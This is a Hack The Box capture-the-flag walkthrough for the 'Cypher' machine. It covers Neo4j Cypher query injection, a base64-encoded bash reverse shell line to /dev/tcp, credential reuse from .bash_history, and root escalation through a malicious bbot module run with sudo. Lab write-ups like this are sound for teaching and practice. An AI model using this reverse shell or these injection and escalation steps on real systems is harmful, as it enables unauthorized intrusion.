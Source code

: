 # 🔐 HTB Machine: Cypher
![Screenshot](https://imgur.com/mrgrbON.png)
### 🌐 Machine Information
- **IP:**  10.10.11.57
- **OS:** Linux
### 🔹 Initial Enumeration
- To start off, I performed a port scan to discover services running on the target: `nmap 10.10.11.57 -A -p- -oN nmap_scan`
![Screenshot](https://imgur.com/APIFmvR.png)
- Nmap Results 2 open ports: `22 (ssh)`, `80 (HTTP)`
- Navigating to 10.10.11.57 in a browser shows me Cypher's webpage. To view it properly, I added cypher.htb to /etc/hosts first.
![Screenshot](https://imgur.com/vf3gLqv.png)
- The website has a login page. Some trial messages hinted it wasn't using SQL but Cypher Query (since it's a Neo4j backend).
![Screenshot](https://imgur.com/32W8PkW.png)

### 🔹 Directory Enumeration
- Using gobuster, I enumerated hidden directory paths:
![Screenshot](https://imgur.com/4JsZ8fW.png)
![Screenshot](https://imgur.com/1Cu9NXR.png)
- I found some interesting directories like `/testing`, and `/api/cypher`

### 🔹 Source Analysis (/testing)
- The `/testing` directory contains a JAR file.
![Screenshot](https://imgur.com/w6oOUGD.png)
- Decompiling it brought me onto a source code of a function
![Screenshot](https://imgur.com/88g4XJM.png)

### 🔹 Query Injection
- Accessing the `/api/cypher` endpoint returned a "Field Required" message.
![Screenshot](https://imgur.com/Kynywf3.png)
- It seems like it needs a query field.
- So I tried to insert a cypher query In the query field
![Screenshot](https://imgur.com/cJgzkZ0.png)
- And it works, so I tried to see what function can I run.
- Using the `SHOW PROCEDURES;` I found a function that I got on the /testing directory.
![Screenshot](https://imgur.com/uwPyc1M.png)

### 🔹 Reverse Shell (neo4j)
- To execute a reverse shell, I base64-encoded a bash reverse: `bash -c 'bash -i >& /dev/tcp/[MY-IP]/[PORT] 0>&1'`
- Then I injected this base64-encoded command into the procedure’s url parameter. Meanwhile, I listened for a connection:
![Screenshot](https://imgur.com/Hgjgf0O.png)
- So basically, because the function needs a url, I use a dummy url and add a reverse shell encoded with base64, then it got decoded and executes the reverse shell.
- Running the injection successfully drops me into shell as `neo4j`.
![Screenshot](https://imgur.com/M9PIjPa.png)

### 🔹 User Access (graphasm)
- So when I checked `/etc/passwd`, there are other users with the name graphasm.
![Screenshot](https://imgur.com/xgeWWic.png)
- While searching trough files, I got some interesting files, its in `/var/lib/neo4j`
- There is some kind of password in the `.bash_history` file

  ![Screenshot](https://imgur.com/fSrevG6.png)
- So I tried to login to graphism user using this password
![Screenshot](https://imgur.com/M4e3uVK.png)
- And it works
- So with graphasm user I can get the user flag

  ![Screenshot](https://imgur.com/fY8t4qa.png)

### 🔹 Privilege Escalation (root)
- Running `sudo -l` as graphasm shows we can execute bbot as root.
![Screenshot](https://imgur.com/qo7Vr0k.png)
- Running bbot shows what can bbot do and its command
![Screenshot](https://imgur.com/ZqTMEra.png)
- Based on the bbot documentation I can use my own preset
![Screenshot](https://imgur.com/7xyQRfU.png)
- This allows me to use my custom modules also, based on this information I assume that I can create my custom preset that load my custom modules directory then I can run my malicious module to escalate my privilege as root
- To exploit this, There is a preset that is already provided in the `/home/graphasm` directory, I will modify it by adding the malicious module directory

  ![Screenshot](https://imgur.com/A0NUdKN.png)
- Now I will start making the malicious module, I will use the existing module as a reference, the existing module located in `/opt/pipx/venvs/bbot/lib/python3.12/site-packages/bbot/modules`
- I will use `bevigil.py` as reference
![Screenshot](https://imgur.com/gPCmnuK.png)
- I'm adding a reverse shell script at the top of the file so it runs first.
- Before running the custom bbot module, I run nc -lvnp 4444 first to catch the reverse shell
- Then I run this command to run the malicious script
![Screenshot](https://imgur.com/8xoLnVg.png)
- Then the nc will be root shell

  ![Screenshot](https://imgur.com/bDmX88C.png)
- With this I can get the root flag

  ![Screennshot](https://imgur.com/evWKZoZ.png)
